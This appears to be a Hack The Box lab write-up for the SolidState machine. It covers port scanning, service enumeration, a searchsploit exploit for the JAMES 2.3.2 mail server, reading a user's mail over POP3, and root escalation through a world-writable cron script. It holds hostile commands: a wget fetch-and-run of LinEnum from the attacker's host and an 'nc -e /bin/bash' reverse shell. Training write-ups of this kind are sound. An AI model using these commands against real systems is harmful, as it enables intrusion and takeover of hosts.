

# Information Gathering

Scanned all TCP ports:

```bash
# connect to vpn
sudo openvpn htb_labs.ovpn

# save target IP as machine variable
export IP='10.10.10.51'

#initial nmap scan
nmap -sVC -p- --open -T4 -oN nmap/initial.nmap $IP

#nmap results
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.24 [10.10.14.24])
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
```

---

# Enumeration

## TCP Port 25 - SMTP

When connecting, we get the name “james220” and “JAMES SMTP Server 2.3.2)

Performed a `smtp-user-enum` scan using the `seclists/Usernames/Names/names.txt wordlist` but no results

Nothing else interesting here

## TCP Port 110 - POP3

When connecting, we get the server version of “JAMES POP3 Server 2.3.2”

Nothing else interesting here

## TCP Port 119 - NNTP

This port was a new one to me, after looking it up I discovered it’s called the “Network News Transfer Protocol”. It essentially used for transporting Usenet news articles between news servers, and for reading/posting articles by the end-user client applications

I Googled “enumerate NNTP” and found [this resource](https://0xffsec.com/handbook/services/nntp/). I then performed some of the commands shown to gather information from the NNTP service.

When running the `list` command, I receive what appears to be domains:



To select a group you just have to enter `group <group name>` :

However, when doing this for each newsgroup, there are no articles displayed which I assumed due to the trailing zeros in the above screenshot…

## TCP Port 80 - HTTP

The nmap output gave us the web server version of “Apache 2.4.25”

Upon navigating to the webpage in the browser, we see that it appears to be a web page for the company “Solid State Security”, a company that offers cybersecurity services including Red Teaming, Web Assessments, and Social Engineering.

There’s a contact form at the bottom but that’s the only potential attack point I’m seeing.

Thus, let’s perform some directory bruteforcing.

I opted for dirsearch as it’s fast and very simple to use. The syntax is as follows: 

```bash
dirsearch -u http://10.10.10.51/
```


Nothing of interest…

## TCP Port 4555 - RSIP

The nmap output labelled this as “JAMES Remote Administration Tool 2.3.2”

Upon connecting to the service with nc -nv $IP 4555 it prompts us to login, I tried some basic credentials with information we’ve gathered so far but wasn’t lucky. 

I then searched via Searchsploit for james 2.3.2 using `searchsploit james 2.3.2`


In this case it’s quite obvious we want one of the RCE exploits, I opted for the second one. 

---

# Exploitation

## CVE-2015-7611

I then copied the exploit to my current directory with the command below and renamed it 

```bash
searchsploit -m 50347;mv 50347.py exploit.py
```

I then ran the exploit

```bash
python3 exploit.py 10.10.10.51 <attacker-ip> 4444
```

After running the exploit it appears to be successful but requires a login to work


Given that the exploit worked with the default credentials, let’s try connecting to the RSIP service via telnet as the root user and enumerate the users and change their password so we can trigger the reverse shell

Upon connecting I ran the `HELP` command to get the capabilities that could be leveraged. The first one I performed was `listusers`


Now that we have a valid list of users, let’s change a users password, I opted to change `mindy`’s password via `setpassword mindy mindy`

Unfortunately, the new password doesn’t work via SSH… time to circle back to enumeration now that we have credentials

The first thing that came to mind was the POP3 service as we could potentially read a user’s emails assuming we have their credentials

I connected to the POP3 service via telnet, and logged in as mindy

```bash
telnet 10.10.10.51 110
```


Upon connecting and logging in, I listed the emails and read their contents

We can list contents in the POP3 service using the `retr <id>` command. I then ran this for both messages and the second email contained the following


Upon logging in via SSH, our reverse shell kicks off successfully

```bash
ssh mindy@10.10.10.51
```


Now, we can grab the user flag


---

# Privilege Escalation

## Local enumeration

I transferred over LinEnum to the target to begin enumeration for potential PrivEsc vectors

```bash
#on attacker
#navigate to directory with LinEnum.sh
python3 -m http.server 80

# on victim
wget http://<attacker-ip>/LinEnum.sh;chmod +x LinEnum.sh;./LinEnum.sh
```

LinEnum pointed out a file called `tmp.py` located in the `/opt` directory

## PrivEsc vector

This file appears to be world read, write, and executable. When viewing the script, it appears it runs on a set interval when a file is placed in the `/tmp` directory

I updated the code to the below

```bash
#!/usr/bin/env python
import os
import sys
try:
	os.system('nc -e /bin/bash <attacker-IP> 9001')
except:
	sys.exit()
```

I then ran `touch /tmp/test.txt` and started another netcat listener on port 9001 via `nc -nvlp 9001`

After a minute, we get our reverse shell as `root`!


We can now collect the root flag


---

**User.txt**


**Root.txt**

